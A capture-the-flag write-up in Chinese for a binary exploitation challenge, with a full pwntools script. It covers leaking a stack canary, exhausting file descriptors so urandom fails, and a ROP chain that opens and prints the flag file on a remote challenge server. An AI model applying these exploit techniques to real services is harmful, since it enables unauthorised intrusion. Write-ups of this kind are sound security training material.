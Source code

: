 ## pwn 



### 步骤一

这道题有三个漏洞点，我使用了两个栈溢出，格式化字符串没有使用。

首先通过第一次栈溢出来泄露canary，不能直接覆盖当前栈的canary，所以找栈上留下的。（这里有个坑点，本机和远程可能不一样，我通过选项2多次递归来在栈上留下canary，使得地址相同。）

### 步骤二

然后选项1作废，只好试图用9011的栈溢出，但是要猜测随机数。

由于linux打开文件数量上限1024个，而这道题没有关闭打开的设备，所以大量打开设备可以使得urandom无法打开，使得随机数恒为0绕过，触发第二次栈溢出。

### 步骤三

程序关闭标准输入流，也无法获取system地址，所以我们可以利用这个，打开flag文件并读出flag直接用puts打印。





### 脚本：

```python
import roputils
from pwn import *

#p=process('./pwn')
p=remote('106.75.64.61',16356)
"""
gdb.attach(p,'''
b *0x0400981 
continue

''')
"""
def cho1(s):
	p.recvuntil('Guess your option:')
	p.sendline('1')
	p.recvuntil('dangerous,so u can only play once.')
	p.send(s)

def cho2(s,y):
	p.recvuntil('Guess your option:')
	p.sendline('2')
	p.recvuntil('hing boring to make u more bored...')
	p.send(s)
	p.recvuntil('isfied?y/n')
	p.sendline(y)




def cho9011(s):
	print p.recvuntil('Guess your option:')
	p.sendline('9011')
	print p.recvuntil('Input your secret co')
	p.send(s)


def cho3(s):
	p.recvuntil('Guess your option:')
	p.sendline('3')
	p.recvuntil(' the secret code I think?)')
	p.send(s)



def cho22(s,y):
	p.recvuntil('hing boring to make u more bored...')
	p.send(s)
	p.recvuntil('isfied?y/n')
	p.sendline(y)

a=10
cho2('a','n')

while(a):
	cho22('a','n')
	a=a-1

cho22('a','y')


cho1('a'*0xa8+'b')

p.recvuntil('b')

canary = u64('\x00'+p.recv(7))
print hex(canary)




bss=0x602080

buf=''
#open
buf=p64(0x0000000000400c53)
buf+=p64(bss+0x118)
buf+=p64(0x0000000000400c51)
buf+=p64(0)
buf+=p64(0)

buf+=p64(0x400760)


#read

buf+=p64(0x0000000000400c53)
buf+=p64(0)
buf+=p64(0x0000000000400c51)
buf+=p64(0x6030AC )
buf+=p64(0x100)

buf+=p64(0x0400738 )


#puts()

buf+=p64(0x0000000000400c53)
buf+=p64(0x6030AC)
buf+=p64(0x400710)



buf+='a'*(0x100-len(buf))
buf+='./flag'






cho2('a'*8+p64(canary)+'rbpaaaaa'+buf,'y')

a=1024
while(a):
	cho9011('aa')
	a=a-1

cho9011('\x00'*8)
p.interactive()

```

